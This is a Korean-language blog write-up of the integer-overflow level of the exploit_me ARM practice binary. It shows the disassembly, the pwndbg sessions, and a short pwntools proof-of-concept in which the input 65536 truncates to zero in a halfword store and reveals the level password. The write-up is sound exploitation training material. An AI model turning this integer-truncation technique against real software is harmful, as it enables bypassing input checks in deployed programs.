 ```yaml
---
title: "[pwnable] ARM exploit 정리"
excerpt: "exploit_me"

categories:
  - pwn
tags:
  - [pwnable, exploit]

permalink: /pwn/exploit_me/

toc: true
toc_sticky: true

date: 2024-12-18
last_modified_at: 2024-12-18
---
```


github에 arm exploit을 정리하기에 좋은 예제가 있어서 이를 이용해서 정리해보고자 합니다.

[exploit_me](https://github.com/bkerler/exploit_me.git)

m1 mac에서 진행하지만 pwnable 환경 자체가 linux x64 환경이기 때문에 qemu를 이용하여 진행하였습니다.

[qemu 정리](https://parkhoho.github.io/pwn/qemu/)

## ☝🏻 정수 오버플로우
main을 disassemble해보면 int_overflow 함수를 찾을 수 있다.

이 함수가 level3 password의 힌트다.
> 참고로 level2 password의 경우 바이너리를 실행시키면 찾을 수 있다.

```
qemu-aarch64-static -L /usr/aarch64-linux-gnu/ -g 8888 ./exploit64 hello 11111
```

11111이라는 값을 줬고, 이 11111을 어떻게 처리하는지 살펴보자.

```asm
0x0000000000401490 <+0>:	stp	x29, x30, [sp, #-48]!
0x0000000000401494 <+4>:	mov	x29, sp
0x0000000000401498 <+8>:	str	x0, [sp, #24]
0x000000000040149c <+12>:	ldr	x0, [sp, #24]
0x00000000004014a0 <+16>:	bl	0x4171b8 <atoi>
0x00000000004014a4 <+20>:	str	w0, [sp, #44]
0x00000000004014a8 <+24>:	ldr	w0, [sp, #44]
0x00000000004014ac <+28>:	str	w0, [sp, #40]
0x00000000004014b0 <+32>:	ldr	w0, [sp, #40]
0x00000000004014b4 <+36>:	cmp	w0, #0x0
0x00000000004014b8 <+40>:	b.ne	0x4014d0 <_Z12int_overflowPc+64>  // b.any
0x00000000004014bc <+44>:	adrp	x0, 0x470000 <_nl_archive_subfreeres+104>
0x00000000004014c0 <+48>:	add	x0, x0, #0x7e8
0x00000000004014c4 <+52>:	bl	0x425e30 <puts>
0x00000000004014c8 <+56>:	mov	w0, #0x0                   	// #0
0x00000000004014cc <+60>:	bl	0x417b30 <exit>
0x00000000004014d0 <+64>:	ldr	w0, [sp, #44]
0x00000000004014d4 <+68>:	strh	w0, [sp, #38]
0x00000000004014d8 <+72>:	ldrh	w0, [sp, #38]
0x00000000004014dc <+76>:	cmp	w0, #0x0
0x00000000004014e0 <+80>:	b.eq	0x401500 <_Z12int_overflowPc+112>  // b.none
0x00000000004014e4 <+84>:	ldrh	w0, [sp, #38]
0x00000000004014e8 <+88>:	mov	w1, w0
0x00000000004014ec <+92>:	adrp	x0, 0x470000 <_nl_archive_subfreeres+104>
```

int_overflow의 disassemble한 코드다.

1. `stp x29,x30,[sp,#-48]!` `mov x29,sp`를 통해 스택 정리
2. `str x0,[sp,#24]`,`ldr x0,[sp,#24]`를 통해 값을 가져온다.
3. atoi를 이용하여 값을 읽음
4. 이 값을 0과 비교하여 같지 않으면 첫번째 branch를 통가하게 된다.(같으면 exit)
5. 이후 다시 재배열한 값을 가져와서 0과 같으면 jmp 한다.(0과 같지 않으면 exit)
6. 즉, 입력한 값이 0이거나 0보다 작아야 한다.

이때 11111를 통해 내부에서 어떤 결과가 나오는지 확인해보자.

```bash
b *int_overflow
c
```

이때 나오는 결과는 아래와 같다.

```assembly
  0x401490 <int_overflow(char*)>       stp    x29, x30, [sp, #-0x30]!       <main+224>
  0x401494 <int_overflow(char*)+4>     mov    x29, sp
  0x401498 <int_overflow(char*)+8>     str    x0, [sp, #0x18]
  0x40149c <int_overflow(char*)+12>    ldr    x0, [sp, #0x18]
  0x4014a0 <int_overflow(char*)+16>    bl     #atoi                     <atoi>

  0x4014a4 <int_overflow(char*)+20>    str    w0, [sp, #0x2c]
  0x4014a8 <int_overflow(char*)+24>    ldr    w0, [sp, #0x2c]
  0x4014ac <int_overflow(char*)+28>    str    w0, [sp, #0x28]
  0x4014b0 <int_overflow(char*)+32>    ldr    w0, [sp, #0x28]
  0x4014b4 <int_overflow(char*)+36>    cmp    w0, #0
  0x4014b8 <int_overflow(char*)+40>    b.ne   #int_overflow(char*)+64                     <int_overflow(char*)+64>
  ...
```

이때 아까 설명한 조건들을 우회하기 위해 breakpoint를 다음과 같이 준다.
```
b *int_overflow+40
b *int_overflow+80
b *int_overflow+120
```

continue 한 후에 w0의 값을 확인해보자.
```bash
c
```

```bash
pwndbg> info r w0
w0             0x2b67              11111
```

즉 w0에는 11111의 hex값인 0x2b67이 들어가 있다.
따라서 w0이 0보다 크기 때문에 jmp를 하게 된다.

다음 조건으로는 그 값을 다시 가져와 0과 비교를 하게 된다.
이때 w0은 아까와 마찬가지로 0x2b67이 들어가있기 때문에 jmp를 하지 못한다.
따라서 다음과 같이 printf()와 exit를 만나 프로그램이 종료가 된다.

```assembly
0x4014e4 <int_overflow(char*)+84>     ldrh   w0, [sp, #0x26]
 ► 0x4014e8 <int_overflow(char*)+88>     mov    w1, w0
   0x4014ec <int_overflow(char*)+92>     adrp   x0, #_nl_archive_subfreeres+104 <0x470000>
   0x4014f0 <int_overflow(char*)+96>     add    x0, x0, #0x810
   0x4014f4 <int_overflow(char*)+100>    bl     #printf                     <printf>

   0x4014f8 <int_overflow(char*)+104>    mov    w0, #0
   0x4014fc <int_overflow(char*)+108>    bl     #exit                     <exit>
```

즉, 원하는 값을 얻기 위해서는 w0에 0을 넣어야 한다.
하지만 입력값에 0을 넣게 되면 password를 얻지 못하기 때문에 다른 방식을 사용해야 한다.

## 해결방법
다음은 int_overflow의 동작과정 중 하나이다. 이때 strh와 ldrh 명령어를 통해 w0에 특정 값을 저장하고 있는 것을 확인할 수 있다.

```assembly
0x4014d0 <int_overflow(char*)+64>    ldr    w0, [sp, #0x2c]
0x4014d4 <int_overflow(char*)+68>    strh   w0, [sp, #0x26]
0x4014d8 <int_overflow(char*)+72>    ldrh   w0, [sp, #0x26]
► 0x4014dc <int_overflow(char*)+76>    cmp    w0, #0
0x4014e0 <int_overflow(char*)+80>    b.eq   #int_overflow(char*)+112                     <int_overflow(char*)+112>
```

strh과 ldrh는 halfword 크기만큼을 저장하고 로드하는 명령어다. 그렇기에 2^16 값을 넣게 된다면 0이 저장되게 된다.
다음은 2^16을 입력으로 하여 바이너리를 분석한 결과다.

```
pwndbg> b *int_overflow+80
```

```
0x4014cc <int_overflow(char*)+60>     bl     #exit                     <exit>

   0x4014d0 <int_overflow(char*)+64>     ldr    w0, [sp, #0x2c]
   0x4014d4 <int_overflow(char*)+68>     strh   w0, [sp, #0x26]
   0x4014d8 <int_overflow(char*)+72>     ldrh   w0, [sp, #0x26]
   0x4014dc <int_overflow(char*)+76>     cmp    w0, #0
 ► 0x4014e0 <int_overflow(char*)+80>     b.eq   #int_overflow(char*)+112                     <int_overflow(char*)+112>
    ↓
   0x401500 <int_overflow(char*)+112>    ldr    w0, [sp, #0x2c]
   0x401504 <int_overflow(char*)+116>    cmp    w0, #0
   0x401508 <int_overflow(char*)+120>    b.lt   #int_overflow(char*)+136                     <int_overflow(char*)+136>

   0x40150c <int_overflow(char*)+124>    ldrh   w0, [sp, #0x26]
   0x401510 <int_overflow(char*)+128>    cmp    w0, #0
```

```bash
pwndbg> info r w0
w0             0x0                 0
```

## PoC
Expoit Code를 제작해보자.
```python
~
"exploit.py" 15L, 317B                                        7,0-1         All
from pwn import *

def lv1():
    args_lv1 = "65536"
    p = process(['./exploit64', 'hello', args_lv1])
    print(p.recvline())

if __name__ == "__main__":
    lv1()
```
```bash
hoho@hoho:~/exploit_me/bin$ python3 ./exploit.py
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/hoho/.cache/.pwntools-cache-3.12/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.13.1)
[+] Starting local process './exploit64': pid 1515
b'Level 2 Password: "help"\n'
[*] Stopped process './exploit64' (pid 1515)
```

위와 같이 Level 2 Password를 확인할 수 있다.
